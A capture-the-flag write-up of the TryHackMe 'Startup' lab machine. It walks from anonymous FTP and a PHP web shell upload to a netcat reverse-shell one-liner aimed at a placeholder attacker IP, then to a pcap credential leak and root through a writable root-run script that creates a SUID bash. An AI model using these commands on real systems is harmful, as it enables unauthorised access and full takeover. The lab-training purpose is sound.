# TryHackMe - Startup Writeup

<p align="center">
  
</p>

## Overview

Startup is a beginner-friendly Linux machine that focuses on enumeration, web exploitation, packet analysis, credential harvesting, and privilege escalation. The attack chain begins with anonymous FTP access and ends with root access through a misconfigured root-executed script.

## Reconnaissance

### Nmap Scan

The first step was to identify the exposed services running on the target machine.

```bash
nmap -sC -sV <TARGET_IP>
```

**Figure 1: Nmap scan results**



The scan revealed three interesting services:

| Port | Service |
| ---- | ------- |
| 21   | FTP     |
| 22   | SSH     |
| 80   | HTTP    |

The FTP service immediately stood out because anonymous authentication was enabled.

---

## FTP Enumeration

I connected to the FTP server using anonymous credentials.

```bash
ftp <TARGET_IP>
```

**Figure 2: Anonymous FTP Login**



Listing the contents of the FTP server revealed several files and a writable FTP directory.

Since write access was available, this became a promising avenue for obtaining code execution.

---

## Web Enumeration

Next, I investigated the web application running on port 80.

The landing page did not reveal any obvious functionality, so directory enumeration was performed using Gobuster.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/big.txt
```

**Figure 3: Gobuster Enumeration**



The scan revealed a hidden directory:

```text
/files
```

Visiting the directory exposed the same files that were accessible through FTP.

**Figure 4: Exposed /files Directory**



This confirmed that files uploaded through FTP could be accessed directly from the web server.

---

## Initial Access

### Uploading a Web Shell

Because the FTP directory was writable and web-accessible, I uploaded a PHP web shell (phpbash.php).

After uploading the file, I navigated to:

```text
http://<TARGET_IP>/files/ftp/phpbash.php
```

**Figure 5: Uploaded PHP Web Shell**



The page successfully executed commands, confirming remote code execution as the web server user.



---

### Obtaining a Reverse Shell

While the web shell allowed command execution, an interactive shell would make post-exploitation significantly easier.

A Netcat listener was started on the attack machine:

```bash
nc -lvnp 4242
```

Since the web shell only provided command execution through the browser, I upgraded my access by executing a reverse shell payload and connecting back to my attacking machine.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4242 >/tmp/f
```

**Figure 6: Reverse Shell Established**



A successful connection was received, providing a shell as the www-data user.

```text
uid=33(www-data)
```

---

## Post Exploitation

### System Enumeration

With shell access established, I began enumerating the system.

During enumeration, I found 2 interesting items (a directory and a file) was discovered in the / directory , with www-data as the owner. I first looked into the file.

```text
/recipe.txt
```

**Figure 7: Discovery of recipe.txt**



The file contained the answer to the first room question.

---

### Discovery of Network Capture

Further enumeration revealed a directory named:

```text
/incidents
```

The directory was owned by www-data and contained a packet capture file.

```text
suspicious.pcapng
```

**Figure 8: Discovery of suspicious.pcapng**



To retrieve the file, it was moved into the var/www/html/files/ftp directory where it could be downloaded through the web interface.

---

## Credential Harvesting

The packet capture was opened in Wireshark for analysis.

Inspecting the TCP streams revealed credentials being transmitted.

**Figure 9: Credential Discovery in Wireshark**



The capture exposed Lennie's password.

This provided a new path for accessing the system through SSH.

---

## User Access

Using the recovered credentials, SSH access was obtained.

```bash
ssh lennie@<TARGET_IP>
```

**Figure 10: SSH Access as Lennie**



After logging in, the user flag was retrieved successfully.

```bash
cat user.txt
```
**Figure 11: User Flag Retrieved**  



---

## Privilege Escalation

### Investigating Scripts

Inside Lennie's home directory, a scripts folder was identified.



A file named:

```text
planner.sh
```

was owned by root but could be read and executed.

Inspecting the script revealed:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

**Figure 11: planner.sh Analysis**

The script executed `/etc/print.sh`.

Further inspection showed that `print.sh` was writable by the current user [lennie]. This misconfiguration is commonly referred to as insecure file permissions, where a lower-privileged user can modify files that are later executed by a privileged process.

This represented a privilege escalation opportunity because the script was executed by a root-owned process.

---

### Exploiting print.sh

**Figure 12: Writable print.sh File**  



I modified the script to create a SUID-enabled copy of Bash.

```bash
echo 'cp /bin/bash /tmp/rootbash && chmod +xs /tmp/rootbash' >> /etc/print.sh
```

After modifying the script, I executed:

```bash
./planner.sh
```

---


**Figure 13: Initial Failure**

A new binary appeared in `/tmp`.

```text
/tmp/rootbash
```

```bash
./rootbash
```

The first attempt to execute the binary failed to provide root privileges.



My first attempt involved executing the SUID bash binary directly. However, this did not provide access to the root flag because Bash dropped its elevated privileges. This behavior is expected in modern versions of Bash as a security measure.


**Figure 14: Root Shell**




I remembered that Bash requires the -p flag to preserve effective privileges when executed as a SUID binary. Executing the binary with this flag successfully provided a root shell and hell yeahh!! We gained root access

```bash
./rootbash -p
```

The command successfully spawned a root shell.

```text
uid=0(root)
```

The root flag was then retrieved successfully.

---

## Attack Path Summary

1. Anonymous FTP access discovered.
2. Writable FTP share identified.
3. PHP web shell uploaded.
4. Remote code execution obtained as www-data.
5. Reverse shell established.
6. Packet capture discovered and analyzed.
7. Lennie's credentials recovered.
8. SSH access gained.
9. Writable root-executed script identified.
10. SUID Bash created through script abuse.
11. Root shell obtained.

## Skills Practiced

- Service Enumeration
- Anonymous FTP Abuse
- Directory Enumeration
- Web Shell Upload
- Reverse Shell Acquisition
- Packet Capture Analysis
- Credential Harvesting
- Linux Privilege Escalation
- SUID Abuse

## Lessons Learned

This room demonstrates the importance of:

* Restricting anonymous FTP access.
* Preventing writable web-accessible directories.
* Avoiding plaintext credential exposure in network traffic.
* Properly securing scripts executed by privileged users.
* Auditing file permissions regularly to prevent privilege escalation paths.

The compromise of this machine was achieved through a chain of small misconfigurations that ultimately resulted in full system compromise.

